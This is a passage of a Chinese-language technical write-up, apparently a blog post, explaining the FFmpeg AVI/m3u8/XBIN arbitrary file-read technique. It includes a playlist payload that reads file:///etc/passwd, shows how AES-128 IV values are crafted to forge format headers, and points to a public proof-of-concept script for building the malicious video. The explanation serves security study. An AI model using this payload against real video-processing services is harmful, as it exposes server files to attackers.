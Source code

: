 	[AVI header]  
	[GAB2 header]  
	[m3u8 header]  
	[XBIN header]  
	目标文件  
	[XBIN footer]  
	[m3u8 footer]  
	[AVI footer]  

但 FFmpeg 检查了 body 中的非法字符串，所以无法使用 data :对 XBIN 格式声明

	#EXTM3U
	#EXT-X-MEDIA-SEQUENCE:1
	#EXTINF:1.0,
	data:<format-header>  
	#EXTINF:1.0,
	file:///etc/passwd  
	#EXTINF:1.0,
	data:<format-footer>  
	#EXT-X-ENDLIST

但是m3u8支持AES128的CBC模式加密，可以在#EXT-X-KEY中进行设置，所以可以很简单加密m3u8的内容：

	…
	#EXTINF:1,
	#EXT-X-KEY:METHOD=AES-128, URI=/dev/zero, IV=<VAL>
	#EXT-X-BYTERANGE: 16
	/dev/zero
	…
	= AES^-1 CONST(0x00…00) ⊕<VAL> = <FMT HEADER>

由于m3u8单次访问目标文件获取到的内容不完整，为了获得完整的文件内容，还需要控制#EXT-X-BYTERANGE设置偏移量，然后重复这一部分

最终，我们得到的文件应该是这样的：

	[AVI header]
	[GAB2 header]
	[m3u8 header]
	{loop}
	#EXT-X-KEY:METHOD=AES-128, URI=/dev/zero, IV=<VAL>     #声明m3u8的AES加密，将XBIN部分加密
	[XBIN header]     #被加密
	目标文件
	[XBIN footer]    #被加密
	{loop}
	[m3u8 footer]
	[AVI footer]

利用[github上](https://github.com/neex/ffmpeg-avi-m3u-xbin "https://github.com/neex/ffmpeg-avi-m3u-xbin")的Python POC脚本生成含有SSRF攻击的avi格式视频。脚本使用方法：

![ffmpeg]({{ '/styles/images/ffmpeg/5.png' | prepend: site.baseurl  }})

通过命令行查看生成的avi视频源码：

![ffmpeg]({{ '/styles/images/ffmpeg/6.png' | prepend: site.baseurl  }})
